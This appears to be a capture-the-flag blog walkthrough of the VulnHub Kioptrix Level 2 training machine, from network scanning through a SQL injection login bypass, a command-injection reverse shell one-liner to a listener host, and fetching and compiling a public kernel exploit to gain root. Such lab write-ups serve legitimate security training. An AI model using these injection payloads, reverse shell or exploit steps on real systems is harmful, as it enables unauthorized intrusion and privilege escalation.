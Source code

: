 ```yaml
---
layout: post
title: "VulnHub - Kioptrix Level 2"
date: 2022-02-09
categories: [VulnHub, Linux]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 2/Kioptrix2.png

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|Kioptrix Level 2|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Box Link**| https://www.vulnhub.com/entry/kioptrix-level-11-2,23/ |
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 2/netdiscover.png)

Okay, so the IP address of the box is **10.0.2.67**.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.67
```

![nmap1](../../assets/img/posts/Kioptrix Level 2/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 2/nmap2.png)

there are multiple ports open. Let's enumerate each one of them.

Let's find out what technologies are running on the machine using **whatweb** tool,

```bash
whatweb http://10.0.2.67
```

![whatweb](../../assets/img/posts/Kioptrix Level 2/whatweb.png)

it's running PHP programming language, has a password field (maybe login mechanism).

visit http://10.0.2.67,

![web1](../../assets/img/posts/Kioptrix Level 2/web1.png)

we got a admin login page. Let's try to break through in using SQLi.

We'll put username as `admin' or 1=1#` and password as `admin`(**any**)

![web2](../../assets/img/posts/Kioptrix Level 2/web2.png)

we'll get logged in as administrator,

![web3](../../assets/img/posts/Kioptrix Level 2/web3.png)

seems like this is a web console and we can ping any machines. Let's ping our own machine,

when **127.0.0.1** is entered in empty area, we'll get this result,

![web4](../../assets/img/posts/Kioptrix Level 2/web4.png)

we got ping result. This is a OS Command Execution Vulnerability and we can run other system commands as well on this web console.

Let's get to know which user we're by, `whoami`

![web5](../../assets/img/posts/Kioptrix Level 2/web5.png)

Let's start the netcat listener on kali terminal using `nc -nvlp 4444` and we'll put this one liner reverse shell in ping utility of website to get us a reverse shell when command gets executed.

```bash
127.0.0.1; bash -c 'exec bash -i &>/dev/tcp/10.0.2.15/4444 <&1'
```

![web6](../../assets/img/posts/Kioptrix Level 2/web6.png)

as soon as this command runs, we'll get back a reverse connection,

![shell1](../../assets/img/posts/Kioptrix Level 2/shell1.png)

we're apache user.

After enumeration, I found that there's nothing we can do to elevate our privileges to users like john or harold. 

**Privilege Escalation:** we'll escalate our privileges to super-user with help of enumeration. Let's first find out what is the system OS running,

```bash
cat /etc/*-release
```

![shell2](../../assets/img/posts/Kioptrix Level 2/shell2.png)

this box is running **CentOS 4.5 Final**.

Let's take a look at kernel version,

```bash
uname -mrs
```

![shell3](../../assets/img/posts/Kioptrix Level 2/shell3.png)

The kernel version of this box is **Linux 2.6.9-55.EL**. After doing some research on google, I found that this kernel is named as **IP_Append_data()**. Let's search this exploit on searchsploit,

```bash
searchsploit ip append data
```

![searchsploit](../../assets/img/posts/Kioptrix Level 2/searchsploit.png)

this is a C file exploit.

Let's download the exploit on our dir and start the python webserver using `python3 -m http.server 8000` and now we're going to upload this exploit on the box,

first navigate to /tmp directory because this directory has writable permissions and then we'll download this exploit using **wget** command,

```bash
wget http://10.0.2.15:8000/9542.c
```

Let's now compile this exploit using **gcc** compiler,

```bash
gcc -o 9542 9542.c
```

Now, let's run the exploit,

```bash
./9542
```

![shell4](../../assets/img/posts/Kioptrix Level 2/shell4.png)

doing `id` will show us that we're now ROOT user!!!.
